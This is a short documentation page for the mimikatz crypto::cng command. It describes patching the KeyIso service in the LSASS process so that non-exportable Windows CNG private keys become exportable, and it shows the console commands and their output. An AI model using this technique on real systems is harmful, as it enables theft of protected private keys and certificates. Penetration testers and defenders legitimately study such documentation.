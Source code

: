 # cng

`crypto::cng` patches the CNG (Cryptography API: Next Generation) service for easy export (Experimental :warning:). This patch modifies `KeyIso` service, in `LSASS` process, in order to make unexportable keys, exportable. This is only useful when the keys provider is `Microsoft Software Key Storage Provider` (you do **not** need to patch `CNG` for other providers). It can be used with [`crypto::certificates`](certificates.md) and [`crypto::keys`](keys.md).

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::cng
"KeyIso" service patched
```
